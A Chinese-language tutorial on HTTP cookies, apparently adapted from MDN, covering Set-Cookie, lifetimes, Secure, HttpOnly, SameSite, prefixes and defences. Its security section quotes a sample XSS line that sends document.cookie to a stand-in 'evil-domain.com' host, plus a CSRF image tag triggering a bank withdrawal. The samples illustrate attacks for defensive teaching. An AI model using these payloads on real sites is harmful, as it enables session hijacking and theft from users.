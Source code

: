 # HTTP Cookie

HTTP Cookie（也叫 Web Cookie 或浏览器 Cookie）是服务器发送到用户浏览器并`保存在本地`的一小块数据，它会在浏览器下次向同一服务器再发起请求时`被携带`并发送到服务器上。

通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的`登录状态`。Cookie 使基于无状态的HTTP协议记录稳定的状态信息成为了可能。

Cookie 主要用于：
1. 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
2. 个性化设置（如用户自定义设置、主题等）
3. 浏览器行为跟踪（如跟踪分析用户行为等）

Cookie 曾被用于客户端数据存储，但服务器指定 Cookie 后，每次请求都会携带 Cookie 数据，会带来额外的`性能开销`（尤其是移动端）。随着现代浏览器开始支持多种存储方式（`Web storage`，IndexedDB），Cookie 渐渐被淘汰。

### 创建 Cookie

当服务器收到 HTTP 请求时，服务器可以在响应头里面添加一个`Set-Cookie`选项。浏览器收到响应后通常会保存下 Cookie，之后对该服务器每一次请求中都通过`Cookie`请求头部将 Cookie 信息发送给服务器。另外，Cookie 的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

```
Set-Cookie: <cookie名>=<cookie值>
```

服务器通过该头部告知客户端保存 Cookie 信息。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

现在，对该服务器发起的每一次新请求，浏览器都会将之前保存的Cookie信息通过 Cookie 请求头部再发送给服务器。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

### 定义 Cookie 的生命周期

Cookie 的生命周期可以通过`两种`方式定义：

1. `会话期 Cookie` 是最简单的 Cookie：浏览器`关闭`之后它会被`自动删除`，也就是说它仅在会话期内有效。会话期 Cookie 不需要指定过期时间（Expires）或者有效期（Max-Age）。
2. `持久性 Cookie` 的生命周期取决于过期时间（Expires）或有效期（Max-Age）指定的一段时间。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

当 Cookie 的过期时间被设定时，设定的日期和时间只与客户端相关，而不是服务端。

如果站点对用户进行身份验证，则每当用户进行身份验证时，它都应重新生成并重新发送会话 Cookie，甚至是已经存在的会话 Cookie。此技术有助于防止`会话固定攻击`（session fixation attacks），在该攻击中第三方可以重用用户的会话。

### 限制访问 Cookie

有`两种`方法可以确保 Cookie 被`安全发送`，并且不会被意外的参与者或脚本访问：

1. `Secure`属性。预防`中间人（man-in-the-middle）`攻击。
2. `HttpOnly`属性。预防`跨站点脚本（XSS）`攻击。

标记为`Secure`的 Cookie 只应通过被`HTTPS`协议加密过的请求发送给服务端，因此可以预防`中间人（man-in-the-middle）`攻击者的攻击。但即便设置了 Secure 标记，敏感信息也不应该通过 Cookie 传输，因为 Cookie 有其固有的不安全性，Secure 标记也无法提供确实的安全保障, 例如，可以访问客户端硬盘的人可以读取它。从 Chrome 52 和 Firefox 52 开始，不安全的站点（http:）无法使用Cookie的 Secure 标记。

JavaScript `Document.cookie` API `无法访问`带有`HttpOnly`属性的 cookie，此类 Cookie 仅作用于服务器。例如，持久化服务器端会话的 Cookie 不需要对 JavaScript 可用，而应具有 HttpOnly 属性。此预防措施有助于缓解`跨站点脚本（XSS）`攻击。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

### Cookie 的作用域

`Domain`和`Path`标识定义了 Cookie 的作用域：即允许 Cookie 应该发送给哪些URL。

1. `Domain`指定了哪些主机可以接受 Cookie。如果不指定，默认为 origin，不包含子域名。如果指定了Domain，则一般包含子域名。当子域需要共享有关用户的信息时，例如，如果设置 Domain=mozilla.org，则 Cookie 也包含在子域名中（如developer.mozilla.org）。

2. `Path`指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 %x2F ("/") 作为路径分隔符，子路径也会被匹配。例如，设置 Path=/docs，则 /docs、/docs/Web/、/docs/Web/HTTP 都会匹配。

### SameSite 属性

`SameSite`：SameSite Cookie 允许服务器要求某个 cookie 在`跨站请求`时不会被发送，（其中 Site 由可注册域定义），从而可以阻止`跨站请求伪造（CSRF）`攻击。

```
Set-Cookie: key=value; SameSite=Strict
```

SameSite 有三种值：

1. `None`。浏览器会在同站请求、跨站请求下继续发送 cookies，不区分大小写。
2. `Strict`。浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 Cookie 的作用域所述）。
3. `Lax`。与 Strict 类似，但用户从外部站点导航至URL时（例如通过链接）除外。在新版本浏览器中，为`默认`选项，Same-site cookies 将会为一些跨站子请求保留，如图片加载或者 frames 的调用，但只有当用户从外部站点导航到URL时才会发送。如 link 链接。

### Cookie 前缀

cookie 机制的使得服务器无法确认 cookie 是在安全来源上设置的，甚至无法确定 cookie 最初是在哪里设置的。

子域上的易受攻击的应用程序可以使用 Domain 属性设置 cookie，从而可以访问所有其他子域上的该 cookie。`会话固定攻击`中可能会`滥用`此机制。（会话劫持）

但是，作为深度防御措施，可以使用 cookie `前缀`来断言有关 cookie 的特定事实。有两个前缀可用：

1. `__Host-`：如果 cookie 名称具有此前缀，则仅当它也用 Secure 属性标记，是从安全来源发送的，不包括 Domain 属性，并将 Path 属性设置为 / 时，它才在 Set-Cookie 标头中接受。这样，这些 cookie 可以被视为`domain-locked`。
2. `__Secure-`：如果 cookie 名称具有此前缀，则仅当它也用 Secure 属性标记，是从安全来源发送的，它才在 Set-Cookie 标头中接受。该前缀限制要弱于 __Host- 前缀。

带有这些前缀的 Cookie， 如果不符合其限制的会被浏览器拒绝。这确保了如果子域要创建带有前缀的 cookie，那么它将要么局限于该子域，要么被完全忽略。由于应用服务器仅在确定用户是否已通过身份验证或 CSRF 令牌正确时才检查特定的 cookie 名称，因此，这有效地充当了针对`会话劫持`的防御措施。

### Document.cookie

JS 通过`Document.cookie`创建新的 Cookie，也可以访问非 HttpOnly 标记的 Cookie。

```javascript
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

通过 JS 创建的 Cookie 不能包含`HttpOnly`标志。

JS 可以通过`跨站脚本攻击（XSS）`的方式来窃取 Cookie。

### 安全

存在 Cookie 中的数据可以被`访问`，也可以被`修改`。切记不能通过 Cookie 存储、传输敏感信息。可以用`JSON Web Tokens`之类的替代身份验证/机密机制。

缓解涉及 Cookie 的攻击的方法：

1. 使用`HttpOnly`属性可`防止`通过 JavaScript 访问 cookie 值。
2. 用于敏感信息（身份验证）的 Cookie 的生存期应较短，并且`SameSite`属性设置为`Strict`或`Lax`。这样确保不与`跨域`请求一起发送身份验证 cookie，这种请求不会向服务器进行身份验证。

#### 会话劫持和 XSS

Cookie 常用来标记用户或授权会话。如果 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行[XSS](https://developer.mozilla.org/zh-CN/docs/Glossary/Cross-site_scripting)攻击。

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly`类型的 Cookie 用于阻止 JS 对其访问，一定程度缓解此类攻击。

#### 跨站请求伪造（CSRF）

[CSRF](https://developer.mozilla.org/zh-CN/docs/Glossary/CSRF)。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

1. 对用户输入进行过滤来阻止`XSS`。
2. 任何敏感操作都需要确认。
3. 用于敏感信息的 Cookie 只能拥有较短的生命周期。

> [MDN HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
